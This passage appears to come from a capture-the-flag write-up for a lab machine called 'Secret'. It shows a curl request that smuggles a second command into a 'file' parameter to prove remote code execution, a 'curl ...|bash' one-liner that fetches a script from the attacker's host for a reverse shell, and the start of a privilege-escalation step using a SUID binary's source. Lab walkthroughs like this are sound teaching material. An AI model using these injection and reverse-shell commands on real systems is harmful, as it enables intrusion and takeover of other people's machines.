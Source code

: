 We can confirm RCE using this:

```
$ curl 'http://10.129.71.62/api/logs?file=t;curl+10.10.14.13/rcecfm' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDU3NDUyNDA1MjNjMDA0N2VhOWM4NTIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJpYXQiOjE2ODM0NDA5ODZ9.88MSrMOiPfw7x7CzUNKPvNlUmVPMQ2S-ZtaQY-9PRuE'
```

<figure><img src="../../../.gitbook/assets/image (459) (2).png" alt=""><figcaption></figcaption></figure>

Then we can just use `curl 10.10.14.13/shell.sh|bash` to get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (432) (2) (1).png" alt=""><figcaption></figcaption></figure>

Grab that user flag.

## Privilege Escalation

### Coredump LFI

Within the `/opt` directory, there's an SUID binary for a program called `count`, and the machine provides us with the source code:

```
dasith@secret:/opt$ ls -la
total 56
drwxr-xr-x  2 root root  4096 Oct  7  2021 .
drwxr-xr-x 20 root root  4096 Oct  7  2021 ..
-rw-r--r--  1 root root  3736 Oct  7  2021 code.c
-rw-r--r--  1 root root 16384 Oct  7  2021 .code.c.swp
-rwsr-xr-x  1 root root 17824 Oct  7  2021 count
-rw-r--r--  1 root root  4622 Oct  7  2021 valgrind.log
```

Here's the code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <dirent.h>
#include <sys/prctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <linux/limits.h>

void dircount(const char *path, char *summary)
{
    DIR *dir;
```